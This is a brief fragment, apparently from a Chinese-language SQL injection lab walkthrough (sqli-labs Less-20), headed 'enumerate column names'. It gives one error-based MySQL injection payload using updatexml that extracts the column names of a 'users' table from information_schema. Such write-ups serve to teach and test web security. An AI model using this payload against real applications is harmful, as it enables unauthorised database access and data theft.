 

+ 爆破列名

~~~ shell
' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1) #
~~~

![Less-20_14](./img/Less-20_14.PNG)
